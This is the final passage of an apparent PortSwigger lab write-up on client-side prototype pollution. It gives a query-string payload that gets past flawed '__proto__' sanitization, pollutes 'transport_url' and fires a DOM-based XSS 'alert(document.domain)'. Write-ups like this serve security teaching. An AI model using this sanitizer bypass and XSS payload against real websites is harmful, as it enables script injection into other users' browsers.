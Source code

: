 Armed with above information, we can pollute the `transport_url` attribute the trigger an DOM-based XSS payload!

### Combine these to call `alert()`

**Payload:**
```js
/?__pro__proto__to__[transport_url]=data:,alert(document.domain);
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-5/images/Pasted%20image%2020230122165043.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-5/images/Pasted%20image%2020230122165053.png)

# What we've learned:

1. Client-side prototype pollution via flawed sanitization